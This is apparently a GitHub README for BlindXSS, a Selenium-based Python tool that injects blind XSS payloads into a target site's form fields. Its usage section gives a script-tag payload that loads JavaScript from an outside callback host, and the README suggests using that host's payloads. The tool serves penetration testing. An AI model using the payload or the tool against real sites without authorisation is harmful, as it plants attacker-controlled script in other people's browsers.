 # BlindXSS - Automated Blind XSS Testing Tool

```
__________.__  .__            .___ ____  ___  _________ _________
\______   \  | |__| ____    __| _/ \   \/  / /   _____//   _____/
 |    |  _/  | |  |/    \  / __ |   \     /  \_____  \ \_____  \ 
 |    |   \  |_|  |   |  \/ /_/ |   /     \  /        \/        \
 |______  /____/__|___|  /\____ |  /___/\  \/_______  /_______  /
        \/             \/      \/        \_/        \/        \/ 

made by @hghost010
```

## 🎯 Description

BlindXSS is an automated web security testing tool designed to identify potential blind Cross-Site Scripting (XSS) vulnerabilities. The tool systematically injects XSS payloads into form inputs and interactive elements on web pages to help security researchers and penetration testers identify potential security weaknesses.

## ✨ Features

- **Automated Form Detection**: Automatically finds and tests input fields, textareas, select elements, and contenteditable elements
- **Comprehensive Testing**: Tests various HTML input types and interactive elements
- **Smart Navigation**: Handles form submissions and page redirections intelligently

## 🛠️ Requirements

### System Requirements
- Python 3.7+
- Chrome/Chromium browser
- Internet connection

### Python Dependencies
```
selenium>=4.0.0
webdriver-manager>=3.8.0
colorama>=0.4.4
```

## 📦 Installation

1. **Clone the repository:**
   ```bash
   git clone https://github.com/Hghost0x00/Blind_XSS.git
   cd Blind_XSS
   ```

2. **Install Python dependencies:**
   ```bash
   pip install -r requirements.txt
   ```

3. **Verify Chrome/Chromium installation:**
   - The tool uses webdriver-manager to automatically download and manage ChromeDriver
   - Ensure Chrome or Chromium is installed on your system

## 🚀 Usage

1. **Run the tool:**
   ```bash
   python bxss.py
   ```

2. **Enter target URL:**
   ```
   Enter the target URL: https://example.com/login
   ```

3. **Provide XSS payload:**

Enter your blind XSS payload: '"><script src=https://xss.report/c/__your_username__></script>

Tip: Using `xss.report` payloads is one of the easiest ways to use this tool. Simply create a free account and use your personalized payload.

4. **Monitor the testing process:**
   - The tool will automatically find and test all interactive elements



## 🐛 Troubleshooting

### Common Issues

**ChromeDriver not found:**
- Solution: The webdriver-manager should handle this automatically. If issues persist, manually install ChromeDriver.

**Permission denied errors:**
- Solution: Run with appropriate permissions or check Chrome installation.

**Timeout errors:**
- Solution: Increase the timeout values in the script for slower websites.



## 📄 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## 🙏 Acknowledgments

- Created by [@hghost010](https://x.com/hghost010)
- Built with Selenium WebDriver
- Uses webdriver-manager for Chrome driver management

## ⭐ Support

If you find this tool helpful, please consider:
- ⭐ Starring the repository
- 🐛 Reporting bugs and issues
- 💡 Suggesting new features
- ☕ Buy me a coffee: 2CZhBKWbacJyVs7k7BJiC3ay4tq3HsPtUysMeSqjRRd4 (Solana)
